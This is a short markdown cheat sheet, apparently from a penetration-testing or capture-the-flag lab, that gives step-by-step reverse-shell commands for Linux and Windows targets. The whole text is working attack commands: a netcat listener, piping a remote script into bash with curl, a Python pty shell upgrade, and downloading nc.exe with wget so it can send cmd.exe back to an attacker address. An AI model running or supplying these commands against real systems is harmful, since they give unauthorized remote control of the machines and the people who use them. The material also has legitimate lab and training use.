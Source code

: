 ## Linux
run server and expose rev.sh as file:
```
python3 -m http.server 80
```

on local machine call:
```
nc -lnvp 1337
```

on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

- upgrade shell to bash:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- to make if fully interactive:
```
https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3
```

## Windows
get nc.exe:
```bash
sudo apt install windows-binaries
```

run server and expose rev.sh as file:
```bash
python3 -m http.server 80
```

on local machine call:
```bash
nc -lnvp 1337
```

on remote machine in a directory where allowed to write:
```bash
wget http://10.10.14.9/nc.exe -outfile nc64.exe
.\nc.exe -e cmd.exe 10.10.14.9 1337
```
